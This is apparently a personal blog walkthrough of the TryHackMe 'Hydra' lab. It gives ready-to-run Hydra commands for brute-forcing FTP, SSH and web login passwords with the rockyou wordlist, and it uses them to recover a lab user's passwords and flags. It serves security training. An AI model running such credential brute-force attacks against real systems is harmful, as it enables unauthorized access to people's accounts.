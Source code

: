 ```yaml
---
title: "Hydra - TryHackMe"
author: krishna
description: "Walkthrough of Hydra from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [tool]
---
```


**[Hydra from TryHackMe](https://tryhackme.com/room/hydra)**

## Task 1 - Hydra Introduction

uses and installation

## Task 2 - Using Hydra

* **ftp bruteforcing :** `hydra -l user -P passlist.txt ftp://$MACHINE_IP`

* **ssh bruteforcing :** `hydra -l <username> -P <full path to pass> $MACHINE_IP -t 4 ssh`

* **POST web form :** `hydra -l <username> -P <wordlist> $MACHINE_IP http-post-form "/<loginURL>:username=^USER^&password=^PASS^:F=incorrect" -V`

for the wordlists, i used ***rockyou.txt***. in kali, it is present in `/usr/share/wordlists/rockyou.txt.gz`.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

	it is given that the username is molly. therefore, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

	![bruteforcing the login page](/assets/img/tryhackme/hydra/hydra1.png)

	the ***flag*** then appears with some disney background idk xD

	![getting the flag](/assets/img/tryhackme/hydra/hydra2.png)

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

	continuing, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP -t 4 ssh`

	then after ssh-ing into molly's system using the password, the ***flag*** is present in `flag2.txt` right in the home directory

	![the bruteforce, the access and the flag](/assets/img/tryhackme/hydra/hydra3.png)

real nice room.
